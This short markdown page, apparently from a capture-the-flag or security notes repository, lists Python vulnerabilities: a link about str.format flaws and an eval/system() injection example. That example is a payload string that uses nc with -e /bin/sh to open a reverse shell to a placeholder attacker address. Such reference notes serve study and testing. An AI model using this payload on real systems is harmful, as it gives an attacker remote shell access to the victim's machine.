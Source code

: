 # Python

## vulnerabilities

- [str format](https://www.geeksforgeeks.org/vulnerability-in-str-format-in-python/)
- `eval`, execute system()
  - `"__import__('os').system('nc your_ip port -e /bin/sh')"`

## [obfuscation](../forensics/obfuscation.md#python)
